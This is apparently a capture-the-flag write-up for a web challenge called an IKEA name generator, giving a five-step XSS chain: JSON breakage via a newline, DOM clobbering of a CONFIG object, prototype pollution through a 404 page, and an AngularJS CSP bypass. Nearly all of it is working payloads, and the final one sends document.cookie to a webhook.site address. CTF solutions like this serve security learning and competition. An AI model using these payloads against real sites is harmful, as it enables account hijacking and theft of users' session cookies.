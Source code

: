 What's your IKEA name? Mine is SORPOÄNGEN.

http://ikea-name-generator.chal.perfect.blue/

By: corb3nik

---

1.Break JSON Syntax by adding a new line (%0a) to make CONFIG undefined
`http://ikea-name-generator.chal.perfect.blue/?name=renwa%0a`

2.Using DOM Clobbering fake CONFIG 
`<form+id=CONFIG><a href=x name=url id=CONFIG>`

3.With `/404.php?msg=` to create a new JSON object 

`<form id=CONFIG><a href='http://ikea-name-generator.chal.perfect.blue/404.php?msg={"text":"renwa"}' id=CONFIG name=url></a>`

4.Prototype Pollution to add `innerHTML` to the sandbox iframe

`<form id=CONFIG><a href='http://ikea-name-generator.chal.perfect.blue/404.php?msg={"__proto__":{"innerHTML":"<h1>23</h1>"}}' id=CONFIG name=url></a>`

5.Using iframe srcdoc to include angularJS script to the iframe then using angular CSP bypass tricks to execute XSS

```
<form id=CONFIG>
<a href='http://ikea-name-generator.chal.perfect.blue/404.php?msg={"__proto__":{"innerHTML":"
<iframe srcdoc=&#x27;<script src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.2/angular.js></script>
<body ng-app ng-csp>
<input autofocus ng-focus=$event.path|orderBy:%26%23x27;[].constructor.from([23],console.log,top.location.href=%26%23x22;https://webhook.site/x?x=%26%23x22;%2bdocument.cookie)%26%23x27;>&#x27>
</iframe>"}}' id=CONFIG name=url>
</a>
</form>

```
